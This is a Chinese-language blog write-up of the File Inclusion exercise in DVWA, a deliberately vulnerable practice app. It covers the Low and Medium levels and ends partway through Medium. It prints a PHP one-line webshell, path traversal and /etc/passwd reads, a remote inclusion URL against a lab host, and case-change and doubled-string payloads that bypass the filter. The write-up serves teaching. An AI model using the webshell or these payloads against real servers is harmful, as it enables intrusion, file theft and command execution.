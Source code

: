 ```yaml
---
layout:     post
title:      dvwa之File Inclusion
subtitle:   dvwa的文件包含
date:       2020-11-17
author:     YY——阳阳
header-img: img/post/1.jpg
catalog: true
tags:
    - dvwa
    - 文件包含
---
```


## 前言
File Inclusion，意思是文件包含（漏洞），是一种代码处理方式，当一个代码文件想要引用另外一个代码文件，就要用到包含。当服务器开启allow_url_include选项时，就可以通过php的某些特性函数（include()，require()和include_once()，require_once()）利用url去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。文件包含漏洞分为本地文件包含漏洞与远程文件包含漏洞，远程文件包含漏洞是因为开启了php配置中的allow_url_fopen选项（选项开启之后，服务器允许包含一个远程的文件）。

## Low
#### 源码审查
```php
<?php
// The page we wish to display
$file = $_GET[ 'page' ];
?>
```
> 服务器对page参数没有做任何过滤检查

![gFlzS.png](https://s3.jpg.cm/2021/02/19/gFlzS.png)

> 服务器期望用户的操作是点击上面的三个链接，服务器会包含相应的文件，并将结果返回。需要特别说明的是，服务器包含文件时，不管文件后缀是否是php，都会尝试当做php文件执行，如果文件内容为php，则会正常执行并返回结果；如果不是，则会原封不动地打印文件内容，所以文件包含漏洞常常会导致任意文件读取与任意命令执行。

#### 漏洞利用
###### 0x01 分析
&emsp;&emsp;尝试修改参数为test.php看一下，发现什么都没有

![](https://img-blog.csdnimg.cn/20201130205317368.png)

&emsp;&emsp;说明这个参数可以利用，盲猜这三个php文件是在一个目录里边的，应该是这样
![](https://img-blog.csdnimg.cn/20181221141159427.png)

&emsp;&emsp;因此我们想要包含跟目录里边的php.ini文件，就要跳转到上两级目录
> 读取www\DVWA\php.ini
> include(“www\DVWA\php.ini”)
> include("www\DVWA\vulnerabilities\fi\../../php.ini")
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020113021052722.png)
&emsp;&emsp;发现allow_url_include和allow_url_fopen是开着的，因此进行远程文件执行

###### 0x02 远程文件执行
&emsp;&emsp;在自己的服务器上放置一个phpinfo.txt文件或者是一句话木马都可以，然后进行远程包含，只要后缀改为php就可以执行，但是如果是非php文件，只要文件里为php格式的代码就可以执行。我们要清楚远程的执行不是在攻击者的web服务器上执行，而是在受害者web服务器上执行命令，所以phpinfo.txt才是正经。
```php
//一句话木马
<?php @eval($_POST['cmd']); ?>
//phpinfo
<?
phpinfo();
?>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201130213630878.png)

> PS：下面这是在谜团靶场执行靶场的phpinfo()![gtgdh.png](https://s3.jpg.cm/2021/02/18/gtgdh.png)
```bash
http://340d990415234f43a620e1071184f98d.app.mituan.zone/vulnerabilities/fi/?page=http://340d990415234f43a620e1071184f98d.app.mituan.zone/phpinfo.php
```

## Medium
#### 源码审查
&emsp;&emsp;将输入的url参数中包含的“http://”、“https://”, “. . /” , ". . ""等字符串替换成空的字符串，
即过滤了远程文件包含, 对于绝对路径和本地文件包含并没有任何过滤。当然也可以用大小写或者双写的方式绕过。
```php
<?php
// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );
?> 
```
#### 攻击方式
###### 0x01
构造payload
```php
page=/etc/passwd
page=hTTp://www.baidu.com
page=hthttp://tp://www.baidu.com
```
1
   ![gFVIW.png](https://s3.jpg.cm/2021/02/19/gFVIW.png)
2  
   ![gFuhO.png](https://s3.jpg.cm/2021/02/19/gFuhO.png)